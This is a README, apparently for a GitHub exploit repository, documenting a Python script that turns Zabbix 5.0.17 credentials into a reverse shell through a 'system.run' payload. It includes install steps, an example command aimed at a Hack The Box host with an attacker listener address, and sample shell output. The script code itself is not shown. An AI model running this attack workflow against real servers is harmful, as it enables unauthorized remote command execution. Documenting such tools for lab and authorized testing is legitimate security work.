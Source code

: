 markdown
# Zabbix 5.0.17 Remote Code Execution (RCE) Exploit

This repository contains a Python script (`exploit.py`) to exploit a Remote Code Execution (RCE) vulnerability in Zabbix 5.0.17. The script allows you to gain a reverse shell on the target system by exploiting a specific feature within the Zabbix web interface.

## Features
- Automates login to the Zabbix instance.
- Extracts session ID (SID) after successful login.
- Sends a malicious payload to execute a reverse shell on the target.
- Includes a built-in listener for the reverse shell using **pwntools**.

## Requirements
- Python 3.6 or higher.
- **pwntools** library installed. See the installation steps below.

## Installation
Before running the script, ensure you have **pwntools** installed. You can install it using pip:

```bash
pip3 install pwntools
pip3 install requests
```

## Usage
Run the script with the following syntax:

```bash
python3 exploit.py <url> <user> <password> <lhost> <lport>
```

### Parameters
- `<url>`: URL of the Zabbix instance (e.g., `http://zabbix.example.com`).
- `<user>`: Username of a valid Zabbix account (e.g., `Administrator`).
- `<password>`: Password for the account.
- `<lhost>`: Your local host IP to receive the reverse shell.
- `<lport>`: Your local port to receive the reverse shell.

### Example
```bash
python3 exploit.py http://zabbix.shibboleth.htb Administrator yourpassword 10.10.14.16 443
```

## How It Works
1. **Login**: The script logs into the Zabbix instance using the provided credentials.
2. **SID Extraction**: It extracts the session ID (SID) from the response after login.
3. **Payload Delivery**: Sends a `system.run` payload with a reverse shell command to the server.
4. **Reverse Shell**: The target system connects back to the attacker's listener.

## Listener
The script includes a reverse shell listener powered by **pwntools**. The listener waits for incoming connections on the specified `lhost` and `lport`.

## Output
- Upon successful exploitation, you will gain an interactive shell on the target system.
- Example output:
  ```
  Listener started on 10.10.14.16:443, waiting for a connection...
  Connection received!
  Shell> whoami
  zabbix
  ```

## Notes
- Ensure that the Zabbix instance is vulnerable before running this exploit.
- Use this script only for educational purposes and authorized penetration testing.

## Disclaimer
This tool is intended for educational and authorized penetration testing purposes only. The author does not take responsibility for any misuse of this script.


